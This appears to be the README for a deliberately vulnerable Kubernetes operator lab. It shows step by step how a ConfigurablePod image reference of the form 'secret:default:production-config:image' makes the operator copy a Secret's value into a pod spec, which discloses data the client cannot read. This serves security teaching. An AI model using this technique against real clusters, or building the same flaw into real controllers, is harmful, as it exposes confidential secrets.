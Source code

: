 # Configurable Pod Operator

This operator showcases a new hacking technique against kubernetes custom controllers.

## Setup

Create a new secret with the following command:

```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: production-config
type: Opaque
data:
  image: bmdpbng=
EOF
```

Install the operator with the following command:

```bash
helm install configurablepod ./helm
```

Create a new configurable pod from the client deployment:

```bash
kubectl apply -f - <<EOF
apiVersion: damnvulerable.io/v1
kind: ConfigurablePod
metadata:
  name: example-configurablepod
spec:
  template:
    metadata:
      labels:
        app: example
    spec:
      containers:
      - name: example-container
        image: secret:default:production-config:image
EOF
```

Check the image of the pod generated by the operator:

```bash
kubectl get pod example-configurablepod -o jsonpath='{.spec.containers[0].image}'
```

> **Note:** The image of the pod comes from the secret created before which the client is not allowed to read.
